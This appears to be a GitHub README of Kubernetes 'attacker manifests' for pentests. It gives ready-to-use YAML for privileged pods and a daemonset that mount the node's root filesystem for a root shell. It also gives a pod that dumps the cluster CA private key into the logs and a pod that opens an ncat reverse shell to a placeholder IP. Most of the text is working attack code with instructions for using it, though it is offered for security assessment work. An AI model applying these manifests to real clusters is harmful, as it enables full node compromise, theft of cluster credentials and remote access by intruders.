 # Attacker Manifests

These are Kubernetes manifests that could be useful on security assessments, or pentests. 

N.B. for pentesters, make sure you have delete rights to the objects you create and make sure to clean up when you're done!

## General form

* `kubectl create -f [MANIFEST.YAML]` creates object contained in a file called [MANIFEST.YAML]
* `kubectl delete -f [MANIFEST.YAML]` deletes object contained in a file called [MANIFEST.YAML]

if you want to create the objects in a specific namespace that isn't your current active one add the following to your manifest under metadata

```yaml
  namespace: [NAMESPACENAME]
```

## Root Pod

This manifest will create a privileged pod on a node in the cluster. Once it's running `kubectl exec -it noderootpod chroot /host` should give you a root shell on the node.

This won't work if :-

1. You don't have right to create pods in the namespace. You'll also need rights to pod/exec in order to get the shell in the pod afterwards.
2. The node can't pull images from Docker Hub
3. There's PodSecurityPolicies (or equivalent) blocking the creation of privileged pods

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: noderootpod
  labels:
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: noderootpod
    image: busybox
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

## Root daemonset

This manifest does the same thing as the pod one, except it creates a pod on every cluster node (including control plane nodes in un-managed clusters). Once it's running, get a list of pods in the daemonset with `kubectl get daemonset noderootdaemon` then use kubectl exec (as above) to execute the `chroot /host` command in one of the pods

This won't work if :-

1. You don't have right to create daemonsets in the namespace. You'll also need rights to pod/exec to get the shell afterwards.
2. The node can't pull images from Docker Hub
3. There's PodSecurityPolicies (or equivalent) blocking the creation of privileged pods by the replicaset controller in that namespace.


```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: noderootdaemon
  labels:
spec:
  selector:
    matchLabels:
      name: noderootdaemon
  template:
    metadata:
      labels:
        name: noderootdaemon
    spec:
      tolerations:
      - key: node-role.kubernetes.io/master
        effect: NoSchedule
      hostNetwork: true
      hostPID: true
      hostIPC: true
      containers:
      - name: noderootpod
        image: busybox
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: noderoot
        command: [ "/bin/sh", "-c", "--" ]
        args: [ "while true; do sleep 30; done;" ]
      volumes:
      - name: noderoot
        hostPath:
          path: /
```

## Sensitive file logger

In a scenario where you have create pods and access to pod logs (a right commonly given for diagnostics) but don't have pod/exec, it can still be possible to use your rights to escalate access to a cluster, by creating a pod which cat's a file to STDOUT (as this will be logged in the container logs)

The manifest below is an example of this. It would work on a kubeadm cluster, when deployed to a master node. To adapt to other scenarios, just change the volume mount and file in the `command` parameter

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: keydumper-pod
  labels:
    app: keydumper
spec:
  containers:
  - name: keydumper-pod
    image: busybox
    volumeMounts:
    - mountPath: /pki
      name: keyvolume
    command: ['cat', '/pki/ca.key']
  volumes:
  - name: keyvolume
    hostPath:
      path: /etc/kubernetes/pki
      type: Directory
```

## Reverse Shell

For setups where you only have create pod, but don't have access to pod/exec or pod logs, it's often possible to setup a reverse shell. First setup an ncat listener with something like

```bash
ncat -l -p 8989
```

Then use the manifest below. Replace `[IP]` with the IP address of the host with the ncat listener.  

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: ncat-reverse-shell-pod
spec:
  containers:
  - name: ncat-reverse-shell
    image: raesene/ncat
    volumeMounts:
    - mountPath: /host
      name: hostvolume
    args: ['[IP]', '8989', '-e', '/bin/bash']
  volumes:
  - name: hostvolume
    hostPath:
      path: /
      type: Directory
```
